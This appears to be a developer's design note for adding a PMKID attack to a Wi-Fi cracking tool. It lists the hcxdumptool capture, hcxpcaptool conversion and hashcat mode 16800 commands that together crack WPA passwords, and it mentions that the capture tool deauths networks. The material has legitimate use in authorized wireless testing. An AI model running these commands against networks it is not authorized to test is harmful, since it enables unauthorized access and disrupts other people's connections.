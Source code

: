 ### PMKID Attack

See https://hashcat.net/forum/thread-7717.html

### Steps

1. Start `hcxdumptool` (daemon)
   * `sudo hcxdumptool -i wlan1mon -o pmkid.pcapng -t 10 --enable_status=1`
   * Should also use `-c <channel>`, `--filterlist` and `--filtermode` to target a specific client
   * Could be a new attack type: `hackwifi.attack.pmkid`
2. Detect when PMKID is found.
   * `hcxpcaptool -z pmkid.16800 pmkid.pcapng`
   * Single-line in pmkid.16800 will have PMKID, MACAP, MACStation, ESSID (in hex).
3. Save `.16800` file (to `./hs/`? or `./pmkids/`?)
   * New result type: `pmkid_result`
   * Add entry to `cracked.txt`
4. Run crack attack using hashcat:
   * `./hashcat64.bin --force -m 16800 -a0 -w2 path/to/pmkid.16800 path/to/wordlist.txt`

### Problems

* Requires latest hashcat to be installed. This might be in a different directory.
   * Use can specify path to hashcat? Yeck...
   * % hashcat -h | grep 16800
   * 16800 | WPA-PMKID-PBKDF2
* If target can't be attacked... we need to detect this failure mode.
   * Might need to scrape `hcxdumptool`'s output
   * Look at `pmkids()` func in .bashrc
   * hcxpcaptool -z OUTPUT.16800 INPUT.pcapng > /dev/null
   * Check OUTPUT.16800 for the ESSID.
* Wireless adapter support is minimal, apparently.
* hcxdumptool also deauths networks and captures handshakes... maybe unnecessarily

